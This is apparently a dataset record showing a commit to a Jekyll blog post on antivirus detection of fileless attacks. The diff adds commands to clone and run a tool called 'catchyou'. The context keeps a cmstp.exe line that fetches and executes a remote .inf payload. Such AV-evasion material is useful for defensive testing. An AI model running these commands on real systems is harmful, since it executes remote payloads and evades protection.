

Before and after one commit to spiritedwolf/fareedfauzi.github.io, a Jekyll site: the page built from _posts/2020-04-08-AV-Fileless-Comparison.md, in a window 1280 px wide and 900 px high, scrolled down 3046 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
Update 2020-04-08-AV-Fileless-Comparison.md

````diff
--- a/_posts/2020-04-08-AV-Fileless-Comparison.md
+++ b/_posts/2020-04-08-AV-Fileless-Comparison.md
@@ -122,7 +122,14 @@ Cmstp
 cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
 ```
 
+## Catchyou
+New tool by thelinuxchoice
 
+```
+git clone https://github.com/thelinuxchoice/catchyou
+cd catchyou
+bash catchyou.sh
+```
 
 # Note
 Msvenom payload may easily detect by AV because of it's popularity used by many attacker and well recognized by its pattern.
````
